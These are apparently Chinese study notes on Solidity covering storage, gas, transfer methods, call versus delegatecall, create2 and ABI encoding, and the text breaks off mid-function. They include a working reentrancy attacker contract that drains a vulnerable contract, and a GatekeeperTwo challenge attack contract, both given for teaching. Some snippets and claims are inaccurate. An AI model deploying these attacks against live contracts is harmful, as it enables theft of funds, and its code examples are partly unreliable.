


# Solidity语言学习

学习网站： https://solidity-cn.readthedocs.io/zh/develop/contracts.html 

以太坊术语查询： [https://github.com/editor-Ajian/List-of-translation-of-crypto-terms-by-EthFans/blob/under-finalized/Blockchain%20and%20Ethereum%20Terminology.md#](https://github.com/editor-Ajian/List-of-translation-of-crypto-terms-by-EthFans/blob/under-finalized/Blockchain and Ethereum Terminology.md#) 

学习心得：Solidity的语法规则和javascript相似。可以把合约看作一个类。其中的语法规则先了解了一遍，可以在具体使用的时候再详细查看。

一些特别的点记录如下：

## mapping & 数组

solidity的mapping不能遍历key值或者直接计算mapping里的key值数量。要想做统计key值数量等需要遍历mapping的操作，可以额外定义一个变量，用来计数。

mapping不能直接删除，可根据具体的key值来删除；数组可以遍历，也可以直接删除某个数组，定长数组被删除后是把所有元素置为初值，变长数组被删除后会把length置为0. 数组的删除也可以只删除某个元素。

```solidity
mapping:
mapping(address=>uint) voteMap;
//delete voteMap;  这样会报错
delete voteMap[addr];

数组：
uint[5] s = [1,2,3,4,5];
delete s[0];
delete s;
```

## GAS

以太坊区块链上，一个账户向另一个账户单纯地发送以太币（转账），将消耗掉21000Gas，用户发起交易时可以自己设定Gas Limit和Gas Value，其中Gas表示操作以太坊区块链时衡量计算量的单位，就比如完成一个操作需要1000个步骤，那么完成这个操作就需要消耗1000个Gas.而且区块的大小表示的是一个区块可以使用的Gas的额度，这个额度是由矿工投票确定。

因为区块block的gas是有限度的，所以区块里的交易只能消耗一定数量的gas。如果合约中存在多次迭代/循环操作，那么可能会将gas耗尽，从而导致整个合约骤然停止。所以在编写合约时，要注意使用没有固定迭代次数的循环。此外，合约中storage(存储)访问也是会消耗gas的。合约的存储区域分为memory、storage，函数参数默认存在memory，函数内部的变量和函数默认存在storage.

日志是一种比合约存储成本要低很多的存储方式。日志每字节花费8gas，合约存储每32字节花费20000gas。虽然日志非常省gas，但是在任何合约中都不能够直接被访问。

## 继承问题

了解到钻石问题：类B和类C都继承类A，类D又继承类B和类C。但是类B和类C都覆盖了类A中的某一个方法equals，而类D中并没有这个方法equals，那么当类D的对象调用方法equals时，它会调用类B中的equals方法，还是类C中的呢？

Solidity中多重继承时要注意is后面的顺序，规则简记为：以从“最接近的基类”到“最远的继承”的顺序来指定所有的基类。比如：

```solidity
contract X {}    contract A is X {}      contract C is X, A{}
```

此外，对于继承来说，子类在编译的时候就把基类编译到操作码中（bytecode），部署时部署到同一个合约。使用super.f()来调用基类的方法，使用的是internal function call，操作码为JUMP，而不是message call。

## modifier

Solidity中有一个函数修饰器，使用的时候用modifier标识，它们可以在执行函数之前自动检查某个条件。例如：

```solidity
contract owned{
    function owned() public{ owned = msg.sender;}
    address owner;
    modifier onlyOwner{
        require(msg.sender == owner);
    }
}
```

而且modifier后面的名字可以接收参数，比如`onlyOwner(uint name){}`或者`onlyOwner(){}`

函数、事件和修饰器这三者之间两两不能同名。

## EVM

以太坊虚拟机每次会操作32个字节。

在智能合约中所用的一切都是公开可见的，即便是局部变量和被标记成private的状态变量。

## 结构和数组 元素顺序

Solidity的结构和数组中的元素都是按它们给定的顺序存储的。并且存储需求少于32字节的多个变量会被打包到一个存储插槽中。所以为了允许以太坊虚拟机对存储进行优化，要确保对存储中的变量和struct成员的书写顺序允许它们被紧密地打包。比如：按照`uint128,uint128,uint256`的顺序声明存储变量，只占用两个存储插槽，按照`uint128,uint256,uint128`的顺序，就要占用三个。

## 合约随机数

在智能合约中使用随机数很不安全，因为智能合约中的随机数一般要依赖计算节点的本地时间得到，而本地时间是可以被恶意节点伪造的，因此这种方法不安全，通常做法是采用链外的第三方服务。

## 重入

在编写智能合约的时候，要注意重入的风险。如果一个程序或者一个子程序可以在任意时刻被中断，然后被操作系统调度执行另外的一段代码，而这段代码又调用了那个程序或者子程序并且不会出错，那么就称这个程序或者子程序可重入。所以要使用"检查-生效-交互"的模式，比如：

```solidity
pragma solidity ^0.4.11;
contract Fund{
    mapping(address => uint) shares;

    function withdraw() public{

        var share = shares[msg.sender];  //先检查

        shares[msg.sender] = 0;      //再生效   

        msg.sender.transfer(share);     //最后交互
    }
}
```

而不是：

```solidity
function withdraw() public{
    if(msg.sender.send(shares[msg.sender]))
        shares[msg.sender] = 0;
}
```

## fallback函数

Solidity里有一种特殊规则的函数，叫做fallback函数（回退函数），在合约里有且仅有一个，它没有函数名，没有参数，没有返回值。当调用合约里不存在的函数时，或者调用没有带任何数据时，就会自动调用执行合约里的这个fallback函数。定义一个fallback函数时，必须要有external修饰。

给一个合约发送一个交易`sendTransaction()`将会触发那个合约里面的fallback函数。

fallback函数举例如下：

```solidity
pragma solidity ^0.4.0;
contract SimpleFallback{
    function () external {
        address public addr;
    }
}
```

由于fallback函数引发的重入攻击举例如下：

```solidity
pragma solidity ^0.4.8;
contract A{
    mapping (address => uint) public balances;
    function A() payable{
        put();
    }
    function put() payable{
        balances[msg.sender] = msg.value;
    }
    function get(){
        if(!msg.sender.call.value(balances[msg.sender]) () ) {
            throw;
        }
        balances[msg.sender] = 0;
    }
    function() {
        throw;
    }
}
```

上述的A合约里面的put函数可以允许调用者将eth数量存放在A合约的balances中，get函数可以让调用者取回之前存放的数量的eth. 

再有另外一个合约B，collect函数可以将调用者的资金转到A合约里，然后再取回来，函数的修饰符payable表明这个函数可以接收eth，当合约B接收到eth后，就会自动调用合约里的fallback函数，也就是最后一个无名函数，这个fallback函数会再次调用A合约的get函数，只要A合约的余额多于B之前存放的金额，就会一直转账过来，这就造成了重入攻击。

```solidity
pragma solidity ^0.4.8;
import "./A.sol";   //导入上一个合约所在的文件
contract B {
    A public a;
    function B (address _a) {
        a = A(_a);
    }
    function collect() payable{
        a.put.value(msg.value)();
        a.get();
    }
    function () payable{
        if(a.balance >= msg.value) {
            a.get();
        }
    }
}
```

## Tx.origin

`Tx.origin`是Solidity的一个全局变量，可以直接在合约中使用，它的作用是遍历当前函数的整个调用栈，直到找到最初发送调用（或者是事务）的账户，并且返回此账户地址。

`Tx.origin`是最初发起交易的地址，也就是最初发起交易的合约拥有者的地址。

## msg.sender

`msg.sender`返回的是调用此函数的调用者（账户或合约）的地址。

## 转账

Solidity中有3中方式可以转eth.

第一种：address.send(amount)

往地址为address的账户转移amount数量的eth(单位是wei)，同时会发送2300个gas（这样做可以保证‘可重入’安全，因为2300gas，只能够记录一个event到日志中）.  这里要注意的是，如果send失败，会返回false，但是不会抛出异常。send函数会导致address所表示的合约调用fallback函数。

第二种：address.transfer(amount)

同样是往地址为address的账户转移amount数量的eth(单位是wei)。如果失败，会抛出异常，所以默认情况下选择transfer而不是send. 同样地，transfer也会发送过去2300gas（能保证‘可重入’安全）. 

第三种：address.call.value(amount)()

往地址为address的账户转移amount数量的eth(单位是wei)。如果失败，会返回false. 主要特点之一是可以设置gaslimit.  比如`address.call.value(1000).gas(20300)()`。值得注意的是，call函数会以address的身份（被调用合约的身份）调用address内的函数，默认情况下是会将所有可用的gas传输给address（不保证可重入安全），但是gas传输量可以调节。

总结上述三种方法的特点：

| 方法                  | address.send() | address.transfer() | address.call.value()() |
| ------------------- | -------------- | ------------------ | ---------------------- |
| **是否可以设置gas limit** | 否              | 否                  | 是                      |
| **Gas limit**       | 2300           | 2300               | 可以设置                   |
| **当出现错误时的返回值**      | false          | 抛出异常               | false                  |

顺带介绍一下delegatecall.  它的使用方法是`address.delegatecall(...)`，是以调用者的身份调用address内的函数，默认情况下将所有可用的gas传输过去，gas传输量也是可调的，比如`addr.delegatecall.gas(1000)("register", "Myname");`。执行失败时返回false.  delegatecall不支持`.value`，所以它不能用于转账。

call和delegatecall的比较如下：

相同点：1.调用时默认都会将本合约所有可用的gas传输过去，但是gas limit都是可以调节的

​                2.出现错误均会返回false

不同点：1.call可以使用`.value`传eth给被调用合约，delegatecall不可以

​                2.假设在mainContract合约中分别有instance.call("somefunction")和

​                   instance.delegatecall("somefunction")，那么instance.call以instance合约的身份在instance中执行somefunction函数，instance.delegatecall以mainContract合约的身份在instance中执行somefunction函数

​                3.delegatecall它的目的是让合约在不用传输自身状态（比如它的balance、storage）的情况下可以使用其它合约的代码

要限定存储在一个智能合约中的以太币的数量，因为如果源代码、编译器或者平台出现了bug，那么可能会导致这些资金丢失。

合约如果要接收ether，就必须要实现一个带payable修饰符的fallback函数，并且合约的构造函数要有payable修饰符。不然的话，就会触发异常并且返还ether.

solidity中删除数组元素可以使用`delete array[i]`，但是这样会留出一个空位置，要么将后面的元素依次往前挪一个位置，要么将最后一个元素挪到空位置，最后将数组长度减一。

```solidity
contract test{
    uint[] array = [1,2,3,4,5];
    function remove(uint index)  returns(uint[]) {
        if (index >= array.length) return;
        for (uint i = index; i<array.length-1; i++){
            array[i] = array[i+1];}
       delete array[array.length-1];
       array.length--; 
return array;    }}
```

tips: 如果使用`send`进行转账的话，要注意判断send操作的结果。send操作会返回true或者false，用来表示转账成功或者失败，如果send失败的话，是不会报错的，后面的操作还会继续执行。（不像transfer，transfer失败会造成revert错误，后面的操作不会再执行，前面的操作也会回退）。低级函数 call、delegatecall 和 staticcall 都和 send 一样，在发生异常时，返回 false，而不是抛出 revert 异常。如果调用的账户不存在，作为 EVM 设计的一部分，低级函数 call、delegatecall 和 staticcall 会返回 true 作为它们的第一个返回值，因此，需要在使用前检查账户是否存在。

## 未用到的变量

未用到的变量可以省略变量名，不需要接收的返回值可以直接用逗号分割。

```sol
(bool success,) = tokenAddr.staticcall(abi.encodeWithSelector(SELECTOR1, addr));
```

其中，`address.staticcall(bytes  memory) returns (bool, bytes memory)`

注意：staticcall用于调用非库文件中的view或pure函数。比如：当使用staticcall调用erc20合约中的transfer函数时，会报错。

## 交易和合约地址

如果一笔交易的to地址为nil，那么这笔交易是创建合约的交易。而合约地址的产生过程是：对部署合约的账户的地址和交易nonce进行RLP编码，再计算出keccak哈希值，取后20个字节作为该合约的地址。计算公式为：`Keccak(RLP(ownerAddr, nonce))[12:]`

而交易的nonce是什么呢？以太坊要求每一个账户的每笔交易要有一个连续的计数，这样每个节点将根据技术顺序严格执行来自一个账户的交易，从而防止重放攻击（比如一个交易被多次执行）。nonce可以说是一个交易计数器。nonce的含义是：工作量证明（这个值决定采矿的难度）；账户的随机数。

## 时间单位

有`seconds、minutes、hours、days、weeks`，不带单位的时间数字默认是`seconds`，此处要注意单位的换算，因为不是每一年都是365天，也不是每一天都是24小时，因为还有闰秒。单位后缀不能用于变量。如果想要表示不同的单位，可以这样：`function example(uint256 start, uint totaldays) public {if(now >= start + totaldays * 1 days){}}`

## 自毁函数

`selfdestruct(address receiver)`销毁当前合约，并把合约剩余所有资金发送给指定的账户，如果账户是一个合约地址，那么即使此receiver没有带payable的fallback函数，也可以接收以太币。如果给一个已经销毁的合约转账，那么这笔资金将会消失。

## 数据存储

以太坊合约是经过EVM执行后，从KV数据库中读写。Solidity合约数据的存储采用的是为合约每项数据指定一个可计算的存储位置，数据存在容量为$2^{256}$的超级数组中，数组中每项数据的初始值为0，在存储到KV数据库中时只有非零数据才会被写入。每个**存储插槽**可以存储32B的数据。当某项数据超过32B，则需要占用多个连续的插槽。因此，当数据长度是已知时，则在编译时指定存储位置，而对于长度不确定的类型（比如动态数组、map）则按一定的规则计算存储位置。Solidity编译器在编译合约时，会严格按照变量定义的顺序给它们分配存储空间。编译器在发现所用存储不超过32B时，将会将其和后面字段尽可能的存储在一个插槽中。所以我们在编写智能合约时，要注意字段的定义顺序。

例如：



确定占用存储空间的类型：bool(1B)、uint16(2B)、uint8(1B)、uint128(16B)、uint256(32B)，int和uint分别等于int256、uint256，byte等于bytes1

在读取数据时，以太坊虚拟机每次读取数据都是32B，当所需要的数据小于32B时，还需要再从32B中截取，更多的操作将消耗更多的gas，不过这种开销比占用更多的存储要便宜得多。

智能合约的变量可以分成：**全局公有变量、全局私有变量、局部变量**。全局变量存储在storage中，storage是存在于区块链中的。局部变量是被编译进OPCODE中的，在运行时被放在stack中，等待后续使用。因为私有变量也是存储在storage中，而storage是存在于区块链中，所以相当于私有变量也是公开的（可以使用getStorageAt函数访问storage中的变量），所以不要用私有变量来存储不能公开的数据。

## 调用其它合约函数

可以使用接口调用，在调用的时候，可能会耗用掉所有的gas，所以需要**设置gas值**。例子如下：

目标合约：

```solidity
pragma solidity ^0.5.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

注意下面的合约，当在构造函数中调用目标合约的函数时，调用者的代码量为0。即**extcodesize(caller)==0**。

```solidity
pragma solidity ^0.5.0;

interface gateKeeper2{
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Attack{
    gateKeeper2 target;

    constructor(address instance) public {
        target = gateKeeper2(instance);
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(-1));
        target.enter.gas(100000)(_key);
    }
}
```

## 合约创建合约

### 需要指定被创建合约的构造器的参数

#### 使用`new`方式创建

```sol
contract D {
    uint public x;
    constructor(uint a) payable {
        x = a;
    }
}

contract C {
    D d = new D(4); // will be executed as part of C's constructor

    function createD(uint arg) public {
        D newD = new D(arg);
        newD.x();
    }

    function createAndEndowD(uint arg, uint amount) public payable {
        // Send ether along with the creation
        D newD = new D{value: amount}(arg);
        newD.x();
    }
```

#### 添加salt

使用另一种合约地址生成方式

```sol
contract D {
    uint public x;
    constructor(uint a) {
        x = a;
    }
}

contract C {
    function createDSalted(bytes32 salt, uint arg) public {
        // This complicated expression just tells you how the address
        // can be pre-computed. It is just there for illustration.
        // You actually only need ``new D{salt: salt}(arg)``.
        address predictedAddress = address(uint160(uint(keccak256(abi.encodePacked(
            bytes1(0xff),
            address(this),
            salt,
            keccak256(abi.encodePacked(
                type(D).creationCode,
                arg
            ))
        )))));

        D d = new D{salt: salt}(arg);
        require(address(d) == predictedAddress);
    }
}
```

### 不需要指定被创建合约的构造器的参数

#### 操作码`create`

create(v,p,s) 

从内存p位置开始，读取n字节的代码，然后创建一个新的合约并发送v数量的eth到新合约中，返回合约的地址。

```sol
assembly {
    p := create(0, add(bytecode, 0x20), mload(bytecode))
}
```

#### 操作码`create2`

create2(v,p,n,s)

是用来替代`create`操作码的。

```sol
import "./PledgePool.sol";

address p;
bytes memory bytecode = type(PledgePool).creationCode;
bytes32 salt = keccak256(abi.encodePacked(f, t)); //可任意指定
assembly {
    p := create2(0, add(bytecode, 0x20), mload(bytecode), salt)
}
```

如果想要使用create2创建合约，但是在创建合约时，又需要初始化合约里的某些状态变量，可以使用初始化函数的方式来写合约。

```sol
contract Multisig {
  address[] owners;
  uint256 required;
  constructor(){} // 可省略
  function initialize(address[] memory _owners, uint256 _required) public {
    require(required == 0, "Contract has already been initialized");
    require(_required > 0, "At least one owner is required");
    owners = _owners;
    required = _required;
  }
}
```

```sol
contract Factory {
  function deploy(bytes memory code, bytes32 salt, bytes memory initdata) public returns (address addr) {
    assembly {
      addr := create2(0, add(code, 0x20), mload(code), salt)
      if iszero(extcodesize(addr)) { revert(0, 0) }
    }
    (bool success,) = addr.call(initdata);
    require(success);
  }
}
```

这样，可以在创建合约时，在同一交易中再调用初始化函数，从而达到构造函数中有参数的效果。

而且，重要的是，如果构造函数中有参数，那么参数的不同，根据上述创建合约的方式（[添加salt](#添加salt)），将会影响合约地址的计算 , 后续合约自毁，想要在同一个地址上再部署一次合约，那么构造器参数将必须与自毁合约的构造器参数一致，这限制了在同一地址上部署新合约。

initialize()函数也常用于可升级合约。其中initdata就是initialize()函数的函数选择器与函数参数的哈希编码（[call调用合约函数](#7. call调用函数)）。

## 合约创建合约比外部账户创建合约，优点在哪？

## 区块打包交易量

区块的gasLimit限制了打包的交易量。但是并不是根据交易实际消耗的gas来决定的，而是根据交易设置的gasLimit来决定的。比如，block.gasLimit=8000000，而每笔交易的gasLimit也是8000000，那么每个区块最多只能打包一笔交易。

# 基本常识

## 1. 编译

`solc --bin xx.sol`

其中`solc`命令的`--bin`选项，用来把智能合约编译后的二进制以十六进制形式表示。

`solc --bin-runtime xx.sol`

和`--bin`选项类似的是`--bin-runtime`，这个选项也会输出十六进制表示，但是会省略智能合约编译后的部署代码。

智能合约编译后的字节码，分为3个部分：部署代码、runtime代码、auxdata.

1. 部署代码：以太坊虚拟机在创建合约时，会先创建合约账户，然后运行部署代码。运行完成后它会将合约的runtime代码以及auxdata存储在区块链上。之后再把二者的存储地址跟合约账户关联起来（也就是把合约账户中的code hash字段用该地址赋值），这样就完成了合约的部署。
2. auxdata：每个合约最后52个字节就是auxdata，它会紧跟在runtime代码后面被存储起来。

`solc --asm xx.sol`用来生成合约的汇编代码。

## 2. EVM

编程语言虚拟机一般有两种类型，基于栈，或者基于寄存器。和JVM一样，EVM也是基于栈的虚拟机。

为了方便进行密码学的计算，EVM采用了32字节的字长。EVM栈以字（Word）为单位进行操作，最多可以容纳1024个字，所以EVM栈最大为32KB。EVM栈的示意图：



## 3. 汇编指令集

EVM的操作码被限制在一个字节以内，所以EVM指令集最多只能容纳2的8次方个即256条指令。目前EVM已经定义了约142条指令，还有100多条可用于以后扩展。

汇编指令`JUMPDEST`没有实际意义，只是起到占位的作用。

安装go-ethereum之后，就可以使用`evm`命令。使用`evm`命令对智能合约字节码进行反编译。反编译之后，将得到类似合约汇编代码的反编译代码。

```sol
{
    let ptr = mload(0x40)
    calldatacopy(ptr, 0, calldatasize)
}
```

在solidity中，内存插槽`0x40`的位置是比较特殊的，它保存了下一个可使用的空闲内存指针的值。每次将变量直接保存到内存时，都应通过查询`0x40`位置的值，来确定变量保存在内存的位置。之后，就可以使用`calldatacopy`指令来将大小为`calldatasize`的数据复制到`ptr`中。

## 4. 函数选择器和参数编码

https://docs.soliditylang.org/en/latest/abi-spec.html#function-selector-and-argument-encoding

selector计算方式：

```sol
bytes4 private constant SELECTOR = bytes4(keccak256(bytes('transfer(address,uint256)'))); //逗号间不能有空格
或者：
IERC20.transfer.selector
```

其中IERC20为ERC20.sol的接口文件，transfer为ERC20合约中的函数名字。

arguments 编码方式：
参数设为x，K为uint256类型，0< M <=256 && M%8==0

* (T1,T2,...,Tk) 任何类型的T,int或byte等
  假设x=(x(1),...,x(k))，则
  enc(x) = head(x(1))...head(x(k))tail(x(1))...tail(x(k))
  如果类型Ti是静态类型：
  head(x(i)) = enc(x(i)), tail(x(i)) = ""(空字符串)
  如果类型Ti是动态类型：
  head(x(i)) = enc(len(head(x(1))...head(x(k))tail(x(1))...tail(x(i-1))))
  tail(x(i)) = enc(x(i))
* T[k]
  enc(x) = enc((x[0],x[1],...,x[k-1]))
* T[]
  假设x有k个元素，enc(x)=enc(k)enc((x[0],...,x[k-1]))
* uint< M>、address(相当于uint160)
  左边填充0到32个字节，数字大端存储（数据的低位保存在内存中的高地址中，数据的高位保存在内存中的低地址中）
* bytes(长度K，0 < K <= 32>)
  enc(x) = enc(k)pad_right(x)
  即先把字节数当成一个uint256的值进行编码，后面跟着字节序列的编码，字节序列后面跟着凑够32字节的0
* string
  enc(x) = enc(x的utf8编码)
* int< M>
  enc(x)等于x的大端二元补码编码，在左边填充到32个字节，x是负数，则填充0xff字节，x是非负数，则填充0字节
* bool
  和uint8情况一样，1表示true，0表示false
* bytes< M>
  enc(x)等于x字节序列后面补0

可参考https://solidity-cn.readthedocs.io/zh/develop/abi-spec.html中的例子，对于非定长类型数据，将其进行utf-8编码转换，比如对于合约：

```solidity
contract Foo {
  function bar(bytes3[2]) public pure {}
  function baz(uint32 x, bool y) public pure returns (bool r) { r = x > 32 || y; }
  function sam(bytes, bool, uint[]) public pure {}
}
```

想将`["abc", "def"]` 做参数调用 `bar`，我们总共需要传送68字节，可以分解为：

- `0xfce353f6`：方法ID。源自 `bar(bytes3[2])` 的签名。
- `0x6162630000000000000000000000000000000000000000000000000000000000`：第一个参数的第一部分，一个 `bytes3` 值 `"abc"` （左对齐）。其中0x61即为符号a的ASCII码，0x62为符号b的ASCII码...
- `0x6465660000000000000000000000000000000000000000000000000000000000`：第一个参数的第二部分，一个 `bytes3` 值 `"def"` （左对齐）。

## 5. abi.encode和abi.encodePacked的区别

abi.encode编码的数据需要32字节对齐，abi.encodePacked编码的数据对小于32字节的数据不补0，以及其他一些区别： https://docs.soliditylang.org/en/latest/abi-spec.html#abi-packed-mode

当被打包的数据中，有超出1个的数据是动态类型（比如string、bytes、uint[]）时，应使用abi.encode，而不是使用abi.encodePacked。因为后者的编码会造成混淆。

`abi.encodePacked("a", "bc") == abi.encodePacked("ab", "c")`

## 6. 锁

```solidity
uint private unlocked = 1;
modifier lock() {
    require(unlocked == 1, "L");
    unlocked = 0;
    _;
    unlocked = 1;
}
```

## 7. call调用函数

```solidity
bytes4 private constant SELECTOR = bytes4(keccak256(bytes('transfer(address,uint256)')));
(bool success, bytes memory data) = token.call(abi.encodeWithSelector(SELECTOR, to, value));
```

注意：staticcall用于调用非库文件中的view或pure函数。比如：当使用staticcall调用erc20合约中的transfer函数时，会报错。

## 8. Create2操作码

CREATE2 是在君士坦丁堡硬分叉过程中引入的新操作码，用来替代原来的 CREATE 操作码（即原生操作码）。两种操作码的主要区别在于合约地址的计算方法。新的操作码不再依赖于账户的 nonce ，而是对以下参数进行哈希计算，得出新的地址：

- 合约创建者的地址
- 作为参数的混淆值（[salt](https://en.wikipedia.org/wiki/Salt_(cryptography))）
- 合约创建代码

原来的create操作码创建合约地址根据参数：合约创建者的地址，合约创建者的nonce值。

```solidity
function deploy(bytes memory bytecode, bytes32 salt) public returns (address addr) {
    assembly {
      addr := create2(0, add(bytecode, 0x20), mload(bytecode), salt)
      if iszero(extcodesize(addr)) { revert(0, 0) }
    }
  }
```

这个操作码的设计可以实现很多比较有意思的场景。比如，根据create2操作码可以获得可再生的合约部署地址，等到旧的合约自毁之后，在这个地址上部署一个新合约，这一特性产生出了另一种合约升级模式。具体讨论参见： https://medium.com/@0age/the-promise-and-the-peril-of-metamorphic-contracts-9eb8b8413c5e

使用create2创建合约时，无法指定新合约构造器的参数。这种情况下，可以使用`new`关键字创建合约。

- `0xFF`, a constant that prevents collisions with `CREATE`
- The sender’s own address
- A salt (an arbitrary value provided by the sender)
- The to-be-deployed contract’s bytecode

create2(v, p, n, s) 

create new contract with code at memory p to p + n 

and send v wei        

and return the new address        

where new address = first 20 bytes of keccak256(0xff + address(this) + s + keccak256(mem[p…(p+n)))             

 s = big-endian 256-bit value

```sol
bytes memory bytecode = type(PledgePoolContract).creationCode;
new_address = hash(0xFF, sender, salt, bytecode)
```

## 9. call与delegateCall

都是用来进行函数的调用，主要区别在于二者执行代码的上下文环境不同。当使用call调用其他合约的函数时，代码是在被调用的合约的环境里执行，对应的，使用delegateCall调用其他合约的函数时，代码是在调用合约的环境里执行。call调用的msg.sender是调用合约地址。

异同点：

* call:最常用的调用方式，调用后内置变量`msg`的值会**被修改**为`调用者`，执行环境为`被调用者`的运行环境（合约的storage）。
* delegatecall:调用后内置变量`msg`的值**不会修改**为`调用者`，执行环境为`调用者`的运行环境。

注意：即使是`private`类型的变量，也会被delegatecall调用更改。

通过例子来对比，在remix调试，部署合约的外部账户地址为0xca35b7d915458ef540ade6068dfe2f44e8fa733c：

```solidity
pragma solidity ^0.8.0;

contract A {
    address public temp1;
    uint256 public temp2;

    function three_call(address addr) public {
        addr.call(bytes4(keccak256("test()")));                 // 1
        //addr.delegatecall(bytes4(keccak256("test()")));       // 2
    }
}

contract B {
    address public temp1;
    uint256 public temp2;

    function test() public  {
        temp1 = msg.sender;
        temp2 = 100;
    }
}
```

部署后可以看到合约 A 的变量值： `temp1 = 0x0, temp2 = 0x0`，同样合约 B 的变量值也是： `temp1 = 0x0, temp2 = 0x0`。

现在调用语句1 `call` 方式，观察变量的值发现合约 A 中变量值为 `0x0`，而**被调用者**合约 B 中的 `temp1 = address(A), temp2 = 100`.

现在调用语句2 `delegatecall` 方式，观察变量的值发现合约 B 中变量值为 `0x0`，而**调用者**合约 A 中的 `temp1 = 0xca35b7d915458ef540ade6068dfe2f44e8fa733c, temp2 = 100`.

## 10. library隐藏知识

不要将库函数声明为内部函数，因为这些函数将在编译期间直接[添加到合约](https://ethereum.stackexchange.com/questions/12975/are-internal-functions-in-libraries-not-covered-by-linking)中。但是如果你使用公共函数，那么它们实际上将在一个单独的库合约中。

library的讲解： https://docs.soliditylang.org/en/v0.8.6/contracts.html?highlight=library#libraries

库中的内部函数的代码和从其中调用的所有函数都将在编译时被包含在调用合约中，并且将使用常规的JUMP调用，而不是使用DELEGATECALL.

可以通过将数据结构定义到library中，从而减少合约的大小。对数据结构的操作函数也可放在库文件中。比如：

```solidity
library StorageUtils {
    using IterableMapping for IterableMapping.itmap;

    // represent public key in did document
    struct PublicKey {
        string id; // 验证方法标识符，比如did:muser:0x031c9cc1c36d53ff1feae79bbd32854a05b3cb4bbf4032383ed1eac79af9a918e7#masterKey
        string methodType; // 验证方法类型，比如EcdsaSecp256k1VerificationKey2019(public  key bytes)、EcdsaSecp256k1RecoveryMethod2020(address bytes)
        string[] controller; // 验证方法的控制者，比如did:ethr:0x031c9cc1c36d53ff1feae79bbd32854a05b3cb4bbf4032383ed1eac79af9a918e7
        bytes pubKeyData; // public key bytes(uncompressed) or address bytes
        bool deactivated; // be deactivated or not
    }

    struct FileManager {
        string id; // 公钥ID，比如did:muser:0x031c9cc1c36d53ff1feae79bbd32854a05b3cb4bbf4032383ed1eac79af9a918e7#key-1
        uint expiration; // 委托文件管理权限的有效期，为0时表示取消该账户的委托管理权限
    }

    struct UserDIDDocument {
        string[] context;

        string id; // 用户id，比如did:muser:0x031c9cc1c36d53ff1feae79bbd32854a05b3cb4bbf4032383ed1eac79af9a918e7
        string[] controller; // 用户id的所有者
        PublicKey[] verificationMethod; // 用来验证的公钥集合
        string[] authentication; // 可认证登录的用户地址，比如{"did:muser:0x031c9cc1c36d53ff1feae79bbd32854a05b3cb4bbf4032383ed1eac79af9a918e7#masterKey"}
        string[] assertionMethod; // 该用户发布的可验证声明，比如{“did:muser:0x031c9cc1c36d53ff1feae79bbd32854a05b3cb4bbf4032383ed1eac79af9a918e7#key-1”}
        FileManager[] capabilityDelegation; // 委托他人管理用户属下的文件
        string[] recovery; // 用于用户密钥遗失后恢复密钥的公钥列表

        uint updateTime; // 最近更新的时间
    }

    function genVeriMtdFromDID(string calldata did, string calldata keyType) public pure returns (PublicKey memory){
        bytes memory pubKeyData = bytes(did[10:]);
        bytes memory id = abi.encodePacked(did, "#masterKey");
        string[] memory controller = new string[](1);
        controller[0] = did;
        return PublicKey(string(id), keyType, controller, pubKeyData, false);
    }
    function serializeVeriMtd(PublicKey memory veriMtd) public pure returns (bytes memory) {
        bytes memory idBytes = ZeroCopySink.WriteVarBytes(bytes(veriMtd.id));
        bytes memory keyTypeBytes = ZeroCopySink.WriteVarBytes(bytes(veriMtd.methodType));
        bytes memory controllerLenBytes = ZeroCopySink.WriteUint255(veriMtd.controller.length);
        bytes memory controllerBytes = new bytes(0);
        for (uint i = 0; i < veriMtd.controller.length; i++) {
            controllerBytes = abi.encodePacked(controllerBytes, ZeroCopySink.WriteVarBytes(bytes(veriMtd.controller[i])));
        }
        bytes memory pubKeyBytes = ZeroCopySink.WriteVarBytes(veriMtd.pubKeyData);
        bytes memory deactivatedBytes = ZeroCopySink.WriteBool(veriMtd.deactivated);

        return abi.encodePacked(idBytes, keyTypeBytes, controllerLenBytes, controllerBytes, pubKeyBytes, deactivatedBytes);
    }
    function insertNewVeriMtd(IterableMapping.itmap storage veriMtdList, PublicKey memory veriMtd) public {
        bytes32 veriMtdListSecondKey = KeyUtils.genVeriMtdSecondKey(veriMtd.pubKeyData);
        bytes memory encodePubKey = serializeVeriMtd(veriMtd);
        bool replaced = veriMtdList.insert(veriMtdListSecondKey, encodePubKey);
        require(!replaced, "key existed");
    }
}

library IterableMapping {
    struct IndexValue {uint keyIndex; bytes value;}
    struct KeyFlag {bytes32 key; bool deleted;}

    struct itmap {
        mapping(bytes32 => IndexValue) data;
        KeyFlag[] keys;
        uint size;
    }

    function insert(itmap storage self, bytes32 key, bytes memory value) internal returns (bool replaced) {
